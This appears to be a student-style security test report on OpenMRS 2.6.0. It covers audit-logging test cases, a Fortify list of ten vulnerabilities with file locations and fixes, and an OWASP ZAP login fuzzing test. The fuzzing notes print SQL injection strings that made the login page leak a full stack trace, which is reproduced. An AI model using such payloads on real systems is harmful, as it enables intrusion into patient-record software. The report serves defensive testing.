1. Start local openMRS and log in with the username and account
2. Click “Find Patient Record” in the main page
3. Click “Kobe Bryant”
4. Click “Edit”
5. Change the first name to “Koby”
6. Confirm

### * Expected logged info
1. username
2. time
3. ip address
4. computer id

### * Actual results
INFO - LoggingAdvice.invoke(115) |2017-10-24 16:01:45,960| In method PatientService.savePatient. Arguments: Patient=Patient#108, 
INFO - LoggingAdvice.invoke(155) |2017-10-24 16:01:45,996| Exiting method savePatient
INFO - LoggingAdvice.invoke(115) |2017-10-24 16:01:46,297| In method UserService.saveUser. Arguments: User=admin, 
INFO - LoggingAdvice.invoke(155) |2017-10-24 16:01:46,301| Exiting method saveUser

### Test status : [ fail ]

No IP address or computer ID is tracking. 
It is inadequate because you cannot tell whether it was operated by the person.


## Test case: U-4


### Name of module : [ Update ]

### Test Description
When someone updates a new patient, his password and session id should not be logged

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
3. OpenMRS with demo database runs normally

### * Test Data
1. Username: `Admin`
2. Password: `Admin123`

### * Test steps
1. Start local openMRS and log in with the username and account
2. Click “Find Patient Record” in the main page
3. Click “Kobe Bryant”
4. Click “Edit”
5. Change the first name to “Koby”
6. Confirm

### * Expected logged info
user password or session id should not be logged

### * Actual results
INFO - LoggingAdvice.invoke(115) |2017-10-24 16:01:45,960| In method PatientService.savePatient. Arguments: Patient=Patient#108, 
INFO - LoggingAdvice.invoke(155) |2017-10-24 16:01:45,996| Exiting method savePatient
INFO - LoggingAdvice.invoke(115) |2017-10-24 16:01:46,297| In method UserService.saveUser. Arguments: User=admin, 
INFO - LoggingAdvice.invoke(155) |2017-10-24 16:01:46,301| Exiting method saveUser

### Test status : [ pass ]

No private information is exposed


## Test case: U-5


### Name of module : [ Update ]

### Test Description
When someone deletes a patient’s information, the username, IP address, and time should be logged

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
3. OpenMRS with demo database runs normally

### * Test Data
1. Username: `Admin`
2. Password: `Admin123`

### * Test steps
1. Start local openMRS and log in with the username and account
2. Click “Find Patient Record” in the main page
3. Click “Kobe Bryant”
4. Click “Delete Patient”
5. Input “He has no problem” as the reason.
6. Input username and password
7. Confrim

### * Expected logged info
1. username
2. time
3. ip address
4. computer id

### * Actual results
INFO - LoggingAdvice.invoke(115) |2017-10-24 16:46:59,026| In method PatientService.voidPatient. Arguments: Patient=Patient#108, String=He has no problem, 
INFO - LoggingAdvice.invoke(155) |2017-10-24 16:46:59,086| Exiting method voidPatient

### Test status : [ fail ]

No IP address or computer ID is tracking. 
It is inadequate because you cannot tell whether it was operated by the person.


## Test case: D-1

### Name of module : [ Delete ]

### Test Description
When someone deletes a new patient, his password and session id should not be logged

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
3. OpenMRS with demo database runs normally

### * Test Data
1. Username: `Admin`
2. Password: `Admin123`

### * Test steps
1. Start local openMRS and log in with the username and account
2. Click “Find Patient Record” in the main page
3. Click “Kobe Bryant”
4. Click “Delete Patient”
5. Input “He has no problem” as the reason.
6. Input username and password
7. Confrim

### * Expected logged info
user password or session id should not be logged

### * Actual results
INFO - LoggingAdvice.invoke(115) |2017-10-24 16:46:59,026| In method PatientService.voidPatient. Arguments: Patient=Patient#108, String=He has no problem, 
INFO - LoggingAdvice.invoke(155) |2017-10-24 16:46:59,086| Exiting method voidPatient

### Test status : [ pass ]

No private information is exposed


## Test case: V-1

### Name of module : [ View ]

### Test Description
When someone views a patient’s information, the username, IP address, and time should be logged

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
3. OpenMRS with demo database runs normally

### * Test Data
1. Username: `Admin`
2. Password: `Admin123`

### * Test steps
1. Start local openMRS and log in with the username and account
2. Click “Find Patient Record” in the main page
3. Click “Kobe Bryant”


### * Expected logged info
1. username
2. time
3. ip address
4. computer id

### * Actual results
INFO - LoggingAdvice.invoke(115) |2017-10-24 17:01:36,095| In method UserService.saveUser. Arguments: User=nurse, 
INFO - LoggingAdvice.invoke(155) |2017-10-24 17:01:36,098| Exiting method saveUser

### Test status : [ fail ]

No IP address or computer ID is tracking. 
It is inadequate because you cannot tell whether it was operated by the person.


## Test case: V-2

### Name of module : [ View ]

### Test Description
When someone views a new patient, his password and session id should not be logged

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
3. OpenMRS with demo database runs normally

### * Test Data
1. Username: `Admin`
2. Password: `Admin123`

### * Test steps
1. Start local openMRS and log in with the username and account
2. Click “Find Patient Record” in the main page
3. Click “Kobe Bryant”

### * Expected logged info
user password or session id should not be logged

### * Actual results
INFO - LoggingAdvice.invoke(115) |2017-10-24 17:01:36,095| In method UserService.saveUser. Arguments: User=nurse, 
INFO - LoggingAdvice.invoke(155) |2017-10-24 17:01:36,098| Exiting method saveUser

### Test status : [ pass ]

No private information is exposed.


## Test case: V-3

### Name of module : [ View ]

### Test Description
When someone views a patient’s information, the username, IP address, and time should be logged

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
3. OpenMRS with demo database runs normally

### * Test Data
1. Username: `Admin`
2. Password: `Admin123`

### * Test steps
1. Start local openMRS and log in with the username and account
2. Click “Appointment Scheduling” in the main page
3. Click “Manage Appointment”
4. Input “Kobe Bryant” and search


### * Expected logged info
1. username
2. time
3. ip address
4. computer id

### * Actual results
INFO - LoggingAdvice.invoke(115) |2017-10-24 17:01:36,095| In method UserService.saveUser. Arguments: User=nurse, 
INFO - LoggingAdvice.invoke(155) |2017-10-24 17:01:36,098| Exiting method saveUser

### Test status : [ fail ]


No IP address or computer ID is tracking. 
It is inadequate because you cannot tell whether it was operated by the person.


## Test case: V-4

### Name of module : [ View ]

### Test Description
When someone views a new patient's appointment, his password and session id should not be logged

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
3. OpenMRS with demo database runs normally

### * Test Data
1. Username: `Nurse`
2. Password: `Nurse123`

### * Test steps
1. Start local openMRS and log in with the username and account
2. Click “Appointment Scheduling” in the main page
3. Click “Manage Appointment”
4. Input “Kobe Bryant” and search

### * Expected logged info
user password or session id should not be logged

### * Actual results
INFO - LoggingAdvice.invoke(115) |2017-10-24 17:01:36,095| In method UserService.saveUser. Arguments: User=nurse, 
INFO - LoggingAdvice.invoke(155) |2017-10-24 17:01:36,098| Exiting method saveUser

### Test status : [ pass ]

No private information is exposed.

***

## 5- STATIC ANALYSIS WITH FORTIFY ##

### Overview ###

In this part we list 10 security vulnerabilities in OpenMRS and suggest potential fix for each. The prioritization is based on the impact and severity of each vulnerability. The vulnerabilities is prioritized from high to low based on its risk, which is **Risk = Impact · Likelihood**.

### Static Analysis ###

#### 5.1. SQL Injection ####

| Component 				| Content 		|
| :---                   	| :---         	|
| Vulnerability Description | On line 164 of *MigrateAllergiesChangeSet.java*, the method *getConceptByGlobalProperty()* invokes a SQL query built using input coming from an untrusted source. This call could allow an attacker to modify the statement's meaning or to execute arbitrary SQL commands. |
| Potential Fix | 1. Replacing the query execution statement with parameterized SQL statements, which can enforce the behavior by disallowing data-directed context changes and avoiding nearly all SQL injection attacks. <br>2. Another potential fix is adopting modern web framework. A number of modern web frameworks provide mechanisms for performing validation of user input, like Struts and Spring MVC. But the cost of changing design or architecture of current application may be very high. | 
| Impact | 5.0 |
| Likelihood | 5.0 |
| **Risk** | 25.0 |


#### 5.2. Command Injection ####

| Component 				| Content 		|
| :---                   	| :---         	|
| Vulnerability Description | The method *execMysqlCmd()* in *MigrateDataSet.java*:187 calls *exec()* with a command built from untrusted data. This call can cause the program to execute malicious commands on behalf of an attacker. |
| Potential Fix | 1. Building a filter / validation method that check the command before the command is executed by *execMysqlCmd()*. The input could be selected from a predetermined set of safe commands (whitelist). <br>2. Also, another potential fix is adopting modern web framework. A number of modern web frameworks provide mechanisms for performing validation of user input, like Struts and Spring MVC. But the cost of changing design or architecture of current application may be very high. | 
| Impact | 5.0 |
| Likelihood | 3.2 |
| **Risk** | 16.0 |


#### 5.3. Privacy Violation ####

| Component 				| Content 		|
| :---                   	| :---         	|
| Vulnerability Description | The method *authenticate()* in *Context.java*:287 mishandles confidential information, which can compromise user privacy and is often illegal. More specifically, the password enters the program, and the statement `log.debug("Authenticating with username: " + username);` in *authenticate()* will display the username in log when debug is enabled. |
| Potential Fix | 1. One potential fix for this problem is minimizing the exposure of sensitive data and encrypting them if they are needed. <br>2. Making sure the source code of the application cannot be decompiled and interpolated by others. | 
| Impact | 4.0 |
| Likelihood | 2.8 |
| **Risk** | 11.2 |


#### 5.4. Password in Configuration File ####

| Component 				| Content 		|
| :---                   	| :---         	|
| Vulnerability Description | In *liquibase-core-data.xml*:5, the password is stored as plaintext in the configuration file. Storing a plaintext password in a configuration file may result in a system compromise. |
| Potential Fix | 1. One potential fix for this problem is encrypting the password field or the whole configuration file, then the plaintext password will not be retrieved by attacker. <br>2. Another potential fix is assigning access permission on the configuration file. So the plaintext password is not accessible to the attackers without permission. | 
| Impact | 4.0 |
| Likelihood | 2.4 |
| Risk | 9.6 |


#### 5.5. Path Manipulation ####

| Component 				| Content 		|
| :---                   	| :---         	|
| Vulnerability Description | Attackers are able to control the file system path argument to *File()* at *AbstractHandler.java* line 169, which allows them to access or modify otherwise protected files. |
| Potential Fix | 1. Create a list of legitimate resource names that a user is allowed to specify, and only allow the user to select from the list. With this approach the input provided by the user is never used directly to specify the resource name. <br>2. Another potential fix is adopting modern web framework. A number of modern web frameworks provide mechanisms for performing validation of user input, like Struts and Spring MVC. But the cost of changing design or architecture of current application may be very high.| 
| Impact | 3.0 |
| Likelihood | 2.95 |
| **Risk** | 8.85 |


#### 5.6.Singleton Member ####

| Component 				| Content 		|
| :---                   	| :---         	|
| Vulnerability Description | The class *AdministrationServiceImpl* is a singleton, so the member field *globalLocaleList* is shared between users. The result is that one user could see another user's data. |
| Potential Fix | 1. For this problem, one potential fix is declaring a separate class and using the Servlet only to wrap the new class. <br>2. Changing the design of *AdministrationServiceImpl* and placing the member field *globalLocaleList* into another class. | 
| Impact | 4.0 |
| Likelihood | 2.0 |
| **Risk** | 8.0 |


#### 5.7. Server-Side Request Forgery ####

| Component 				| Content 		|
| :---                   	| :---         	|
| **Vulnerability Description** | The function *openConnection()* on line 720 initiates a network connection to a third-party system using user-controlled data for resource URI. An attacker may leverage this vulnerability to send a request on behalf of the application server since the request will originate from the application server internal IP. |
| **Potential Fix** | 1. Change the design of this part. Do not establish network connections based on user-controlled data and ensure that the request is being sent to the expected destination. If user data is necessary to build the destination URI, use a level of indirection: create a list of legitimate resource names that a user is allowed to specify, and only allow the user to select from the list. With this approach the input provided by the user is never used directly to specify the resource name. <br>2. Another approach is to create a whitelist of characters that are allowed to appear in the resource name and accept input composed exclusively of characters in the approved set. | 
| Impact | 3.0 |
| Likelihood | 2.4 |
| **Risk** | 7.2 |


#### 5.8. Hardcoded Encryption Key ####

| Component 				| Content 		|
| :---                   	| :---         	|
| Vulnerability Description | In *OpenmrsConstants.java*:532, the encryption key is hardcoded in the program. Hardcoded encryption keys may compromise system security in a way that cannot be easily remedied. |
| Potential Fix | 1. Encryption keys should never be hardcoded. They should be obfuscated and managed in an external source. <br>2. Another fix for this problem is replacing the hardcoded keys with a method that generates random keys. | 
| Impact | 3.0 |
| Likelihood | 2.4 |
| **Risk** | 7.2 |


#### 5.9. Denial of Service: Regular Expression ####

| Component 				| Content 		|
| :---                   	| :---         	|
| Vulnerability Description | In *HibernatePatientDAO.java*:772, untrusted data is passed to the application and used as a regular expression. This can cause the thread to over-consume CPU resources. |
| Potential Fix | 1. Do not allow untrusted data to be used as regular expression patterns. Build a filter that check the input data | 
| Impact | 3.0 |
| Likelihood | 2.13 |
| **Risk** | 6.39 |


#### 5.10. Log Forging ####

| Component 				| Content 		|
| :---                   	| :---         	|
| Vulnerability Description | The method *becomeUser()* in *Context.java* writes unvalidated user input to the log on line 328. An attacker could take advantage of this behavior to forge log entries or inject malicious content into the log. |
| Potential Fix | 1. Prevent log forging attacks with indirection: create a set of legitimate log entries that correspond to different events that must be logged and only log entries from this set. To capture dynamic content, such as users logging out of the system, always use server-controlled values rather than user-supplied data. This ensures that the input provided by the user is never used directly in a log entry. <br>2. Another potential fix is adopting modern web framework. A number of modern web frameworks provide mechanisms for performing validation of user input, like Struts and Spring MVC. Thus the attacker cannot put malicious code into the log | 
| Impact | 2.5 |
| Likelihood | 2.21 |
| **Risk** | 5.525 |

***

## 6- FUZZING WITH OWASP ZAP
## Fuzz -1- LOGIN PAGE INJECTION
### Priority : HIGH
### Test status : FAILED

### * Description
#### Name of module : OpenMRS login
+ Page location : http://localhost:8081/openmrs-standalone/login.htm
+ Fuzz string : username=admin&password=<<fuzz data>>&sessionLocation=2&redirectUrl=
+ Fuzz data : jbrofuzz pre-installed rules in OWASP scanner
Fuzzer will deploy 199 injection attack strings on the variable "password" in form of POST requests. Server HttpResponses will be analyzed and be decided if the attacks were successful or not.


### * Precondition
1. A local computer with administrator privilege
2. Java JRE installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unziped
4. OWASP ZAP Version 2.6.0 downloaded and installed

### * Dependencies
1. OpenMRS with demo database was loaded and runs normally
2. OWASP ZAP runs normally

### * Test Data
jbrofuzz rules came standard with OWASP Zap

### * Test steps
1. Open up OpenMRS V. 2.6.0 Standalone. Make sure Tomcat Port is 8081 and MySQL port is 3316. A web page starting with localhost:8081 will be automatically opened upon successful start.


2. Open OWASP Zap V2.6.0
3. From OWASP Zap, go to Toos > Launch the Zap JxBrowser
4. In the Zap JxBrowser, type "http://localhost:8081/openmrs-standalone/login.htm" (without the double quotes) into the address bar and hit Enter
5. Go to the main Zap window, on the left side bar, in "Sites" tab, under "Sites" sub section, you will now see "http://localhost:8081". Expand that until you see "GET:login.htm". If you don't see it, please go to the JzBrowser and make sure the login page is loaded. If the page is not loaded, you need to double check the OpenMRS to make sure it runs properly


6. Go back to the Zap JxBrowser and type a bogus pair of username/password (we use "admin" for username and "BBBBB" for password), select "Pharmacy" section and click login. When the page got reloaded with "Invalid username/password. Please try again", close JxBrowser window and get back to main Zap window


7. In zap window, if you see "POST:login.htm(password, redirectURL,sessionLocation,username)" on the left panel (the "Sites" panel) then you got it, if not, please repeat step 3 to 5
8. Select "POST:login.htm(password, redirectURL,sessionLocation,username)" from the left panel and select the "Request" tab on the right panel. The right panel will turn into 2 smaller panels. At the bottom one, you will see "username=admin&password=BBBBB&sessionLocation=2&redirectUrl="
9. Highlight the "BBBBB" part from the string you got in previous step, right click on it and choose "Fuzz". A Fuzzer window will be opened.


10. In the fuzzer window, click "Payloads..." button. A child window will be opened


11. In the child "Payloads" window, click "Add". An "Add payload" window will be opened
12. In "Add payload window, in the "Type" box, choose "File Fuzzers". Expand the "jbrofuzz" section. Check the box of "Injection" and click "Add". The child window will be closed.


13. In Payloads window, click "OK" and you will be returned to the "Fuzzer" window. In this window, click "Start Fuzzer" button and you will be returned to the main Zap window with the "Fuzzer" tab selected
14. Observe the results in the "Fuzzer" tab, especially the "Code" and "Size Resp. Body". Check the HTTP response by selecting a fuzz entry, and select the "Response" tab in the uper right panel.


### * Expected results
+ OpenMRS should redirect invalid logins back to the login page.
+ System has to be able to fail securely.

### * Post-condition
OpenMRS should still be operating normally

### * Actual results
+ 199 fuzz were done on the "password" variable
+ 197 of the entries have 302 code and zero size of Response html body. Confirmed by inspection of html header, noticing that system redirects invalid login to previous page - the login page.
+ 002 of the fuzz entries were able to force system to leak some debugging informations which can be used for further attacks (to be discussed further in the Notes section)
+ We decided that the test is a "FAILED". Even though no exploit directly linked to Injection was successful, the fuzzer was able to leak some important debugging data. 

### * NOTES:

FUZZ STRING USED TO CAUSE THE LEAK
> ' union (select NULL, (select @@version)) --&sessionLocation=2&redirectUrl=

or

> username=admin&password=' union (select NULL, NULL, (select @@version)) --&sessionLocation=2&redirectUrl=

LEAKED SYSTEM INFO

Originally harvested by OWASP fuzzer in HttpResponse and may not be able to reproduce using the regular browser/view source method.
```
<h1>UI Framework Error</h1>

<h2>Root Error</h2>
<pre>com.mysql.jdbc.exceptions.jdbc4.MySQLIntegrityConstraintViolationException: Duplicate entry '1-lockoutTimestamp' for key 'PRIMARY'
	at sun.reflect.NativeConstructorAccessorImpl.newInstance0(Native Method)
	at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
	at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
	at java.lang.reflect.Constructor.newInstance(Constructor.java:423)
	at com.mysql.jdbc.Util.handleNewInstance(Util.java:411)
	at com.mysql.jdbc.Util.getInstance(Util.java:386)
	at com.mysql.jdbc.SQLError.createSQLException(SQLError.java:1041)
	at com.mysql.jdbc.MysqlIO.checkErrorPacket(MysqlIO.java:4237)
	at com.mysql.jdbc.MysqlIO.checkErrorPacket(MysqlIO.java:4169)
	at com.mysql.jdbc.MysqlIO.sendCommand(MysqlIO.java:2617)
	at com.mysql.jdbc.MysqlIO.sqlQueryDirect(MysqlIO.java:2778)
	at com.mysql.jdbc.ConnectionImpl.execSQL(ConnectionImpl.java:2825)
	at com.mysql.jdbc.PreparedStatement.executeInternal(PreparedStatement.java:2156)
	at com.mysql.jdbc.PreparedStatement.executeUpdate(PreparedStatement.java:2441)
	at com.mysql.jdbc.PreparedStatement.executeBatchSerially(PreparedStatement.java:2007)
	at com.mysql.jdbc.PreparedStatement.executeBatch(PreparedStatement.java:1467)
	at com.mchange.v2.c3p0.impl.NewProxyPreparedStatement.executeBatch(NewProxyPreparedStatement.java:1135)
	at org.hibernate.engine.jdbc.batch.internal.BatchingBatch.performExecution(BatchingBatch.java:127)
	at org.hibernate.engine.jdbc.batch.internal.BatchingBatch.doExecuteBatch(BatchingBatch.java:114)
	at org.hibernate.engine.jdbc.batch.internal.AbstractBatchImpl.execute(AbstractBatchImpl.java:163)
	at org.hibernate.engine.jdbc.internal.JdbcCoordinatorImpl.executeBatch(JdbcCoordinatorImpl.java:226)
	at org.hibernate.engine.spi.ActionQueue.executeActions(ActionQueue.java:484)
	at org.hibernate.engine.spi.ActionQueue.executeActions(ActionQueue.java:351)
	at org.hibernate.event.internal.AbstractFlushingEventListener.performExecutions(AbstractFlushingEventListener.java:350)
	at org.hibernate.event.internal.DefaultFlushEventListener.onFlush(DefaultFlushEventListener.java:56)
	at org.hibernate.internal.SessionImpl.flush(SessionImpl.java:1258)
	at org.hibernate.internal.SessionImpl.managedFlush(SessionImpl.java:425)
	at org.hibernate.engine.transaction.internal.jdbc.JdbcTransaction.beforeTransactionCommit(JdbcTransaction.java:101)
	at org.hibernate.engine.transaction.spi.AbstractTransactionImpl.commit(AbstractTransactionImpl.java:177)
	at org.springframework.orm.hibernate4.HibernateTransactionManager.doCommit(HibernateTransactionManager.java:584)
	at org.springframework.transaction.support.AbstractPlatformTransactionManager.processCommit(AbstractPlatformTransactionManager.java:757)
	at org.springframework.transaction.support.AbstractPlatformTransactionManager.commit(AbstractPlatformTransactionManager.java:726)
	at org.springframework.transaction.interceptor.TransactionAspectSupport.completeTransactionAfterThrowing(TransactionAspectSupport.java:553)
	at org.springframework.transaction.interceptor.TransactionAspectSupport.invokeWithinTransaction(TransactionAspectSupport.java:285)
	at org.springframework.transaction.interceptor.TransactionInterceptor.invoke(TransactionInterceptor.java:96)
	at org.springframework.aop.framework.ReflectiveMethodInvocation.proceed(ReflectiveMethodInvocation.java:179)
	at org.springframework.aop.framework.JdkDynamicAopProxy.invoke(JdkDynamicAopProxy.java:207)
	at com.sun.proxy.$Proxy290.authenticate(Unknown Source)
	at org.openmrs.api.context.UserContext.authenticate(UserContext.java:100)
	at org.openmrs.api.context.Context.authenticate(Context.java:297)
	at org.openmrs.module.referenceapplication.page.controller.LoginPageController.post(LoginPageController.java:217)
	at sun.reflect.GeneratedMethodAccessor542.invoke(Unknown Source)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at org.openmrs.ui.framework.UiFrameworkUtil.invokeMethodWithArguments(UiFrameworkUtil.java:112)
	at org.openmrs.ui.framework.UiFrameworkUtil.executeControllerMethod(UiFrameworkUtil.java:71)
	at org.openmrs.ui.framework.page.PageFactory.handleRequestWithController(PageFactory.java:219)
	at org.openmrs.ui.framework.page.PageFactory.processThisFragment(PageFactory.java:160)
	at org.openmrs.ui.framework.page.PageFactory.process(PageFactory.java:116)
	at org.openmrs.ui.framework.page.PageFactory.handle(PageFactory.java:86)
	at org.openmrs.module.uiframework.PageController.handlePath(PageController.java:116)
	at org.openmrs.module.uiframework.PageController.handleUrlWithDotPage(PageController.java:83)
	at sun.reflect.GeneratedMethodAccessor540.invoke(Unknown Source)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at org.springframework.web.bind.annotation.support.HandlerMethodInvoker.invokeHandlerMethod(HandlerMethodInvoker.java:177)
	at org.springframework.web.servlet.mvc.annotation.AnnotationMethodHandlerAdapter.invokeHandlerMethod(AnnotationMethodHandlerAdapter.java:446)
	at org.springframework.web.servlet.mvc.annotation.AnnotationMethodHandlerAdapter.handle(AnnotationMethodHandlerAdapter.java:434)
	at org.springframework.web.servlet.DispatcherServlet.doDispatch(DispatcherServlet.java:943)
	at org.springframework.web.servlet.DispatcherServlet.doService(DispatcherServlet.java:877)
	at org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:966)
	at org.springframework.web.servlet.FrameworkServlet.doPost(FrameworkServlet.java:868)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:647)
	at org.springframework.web.servlet.FrameworkServlet.service(FrameworkServlet.java:842)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:728)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:305)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:101)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:101)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.apache.catalina.core.ApplicationDispatcher.invoke(ApplicationDispatcher.java:749)
	at org.apache.catalina.core.ApplicationDispatcher.processRequest(ApplicationDispatcher.java:487)
	at org.apache.catalina.core.ApplicationDispatcher.doForward(ApplicationDispatcher.java:412)
	at org.apache.catalina.core.ApplicationDispatcher.forward(ApplicationDispatcher.java:339)
	at org.springframework.web.servlet.view.InternalResourceView.renderMergedOutputModel(InternalResourceView.java:168)
	at org.springframework.web.servlet.view.AbstractView.render(AbstractView.java:303)
	at org.springframework.web.servlet.DispatcherServlet.render(DispatcherServlet.java:1228)
	at org.springframework.web.servlet.DispatcherServlet.processDispatchResult(DispatcherServlet.java:1011)
	at org.springframework.web.servlet.DispatcherServlet.doDispatch(DispatcherServlet.java:955)
	at org.springframework.web.servlet.DispatcherServlet.doService(DispatcherServlet.java:877)
	at org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:966)
	at org.springframework.web.servlet.FrameworkServlet.doPost(FrameworkServlet.java:868)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:647)
	at org.springframework.web.servlet.FrameworkServlet.service(FrameworkServlet.java:842)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:728)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:305)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.module.web.filter.ForcePasswordChangeFilter.doFilter(ForcePasswordChangeFilter.java:60)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.web.filter.GZIPFilter.doFilterInternal(GZIPFilter.java:64)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.module.web.filter.ModuleFilterChain.doFilter(ModuleFilterChain.java:72)
	at org.openmrs.module.owa.filter.OwaFilter.doFilter(OwaFilter.java:64)
	at org.openmrs.module.web.filter.ModuleFilterChain.doFilter(ModuleFilterChain.java:70)
	at org.openmrs.module.web.filter.ModuleFilter.doFilter(ModuleFilter.java:54)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.web.filter.OpenmrsFilter.doFilterInternal(OpenmrsFilter.java:108)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.springframework.orm.hibernate4.support.OpenSessionInViewFilter.doFilterInternal(OpenSessionInViewFilter.java:150)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.web.filter.StartupFilter.doFilter(StartupFilter.java:105)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.web.filter.StartupFilter.doFilter(StartupFilter.java:105)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.web.filter.StartupFilter.doFilter(StartupFilter.java:105)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.springframework.web.filter.CharacterEncodingFilter.doFilterInternal(CharacterEncodingFilter.java:88)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:222)
	at org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:123)
	at org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:502)
	at org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:171)
	at org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:100)
	at org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:118)
	at org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:409)
	at org.apache.coyote.http11.AbstractHttp11Processor.process(AbstractHttp11Processor.java:1044)
	at org.apache.coyote.AbstractProtocol$AbstractConnectionHandler.process(AbstractProtocol.java:607)
	at org.apache.tomcat.util.net.JIoEndpoint$SocketProcessor.run(JIoEndpoint.java:315)
	at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
	at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
	at java.lang.Thread.run(Thread.java:748)
</pre>

<h2>Full Error</h2>
<pre>org.springframework.dao.DataIntegrityViolationException: could not execute batch; SQL [insert into user_property (user_id, property, property_value) values (?, ?, ?)]; constraint [null]; nested exception is org.hibernate.exception.ConstraintViolationException: could not execute batch
	at org.springframework.orm.hibernate4.SessionFactoryUtils.convertHibernateAccessException(SessionFactoryUtils.java:163)
	at org.springframework.orm.hibernate4.HibernateTransactionManager.convertHibernateAccessException(HibernateTransactionManager.java:730)
	at org.springframework.orm.hibernate4.HibernateTransactionManager.doCommit(HibernateTransactionManager.java:592)
	at org.springframework.transaction.support.AbstractPlatformTransactionManager.processCommit(AbstractPlatformTransactionManager.java:757)
	at org.springframework.transaction.support.AbstractPlatformTransactionManager.commit(AbstractPlatformTransactionManager.java:726)
	at org.springframework.transaction.interceptor.TransactionAspectSupport.completeTransactionAfterThrowing(TransactionAspectSupport.java:553)
	at org.springframework.transaction.interceptor.TransactionAspectSupport.invokeWithinTransaction(TransactionAspectSupport.java:285)
